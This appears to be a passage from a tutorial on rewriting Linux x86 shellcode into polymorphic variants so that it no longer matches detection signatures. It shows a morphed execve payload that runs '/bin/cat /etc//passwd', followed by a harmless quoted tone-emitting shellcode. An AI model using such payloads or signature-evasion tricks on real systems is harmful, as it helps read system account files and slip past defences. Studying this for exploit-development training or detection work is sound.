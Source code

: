 Looking over this, we see some obvious things we could modify that would produce the same functionality using the same instructions. For example, `cdq` is being used here to clear the EDX register, but we could do the same with a special multiply call. EDX is also being used to push null values onto the stack, but we could use a different register. We could also change the order of some of the instructions, which would result in a different signature. Let's do all of this.

**_morphed shellcode_**

```
xor ebx, ebx    ; Use EBX instead of EAX
mul ebx         ; This clears EAX and EDX for us

push eax        ; Push nulls with EAX
push 0x7461632f
push 0x6e69622f
mov ebx,esp

push eax        ; Push nulls with EAX

push 0x64777373
push 0x61702f2f
push 0x6374652f
mov ecx,esp

push eax        ; Push nulls with EAX
push ecx
push ebx
mov ecx,esp
mov al,0xb      ; Rearrange this command
int 0x80
```

#### Results

The original shellcode was 43 bytes, and our morphed version was 44 bytes. That results in a **2.3%** increase in size, which is within our boundary! On to the next piece of code.

## Shellcode \#2

This next piece of [shellcode](http://shell-storm.org/shellcode/files/shellcode-60.php) we'll modify is just a fun piece of code designed to emit a tone, and is originally 45 bytes.

**_original shellcode_**

```
; int fd = open("/dev/tty10", O_RDONLY);
push byte 5
pop eax
cdq
push edx
push 0x30317974
push 0x742f2f2f
push 0x7665642f
mov ebx, esp
mov ecx, edx
int 80h

; ioctl(fd, KDMKTONE (19248), 66729180);
mov ebx, eax
push byte 54
pop eax
mov ecx, 4294948047
not ecx
mov edx, 66729180
int 80h
```
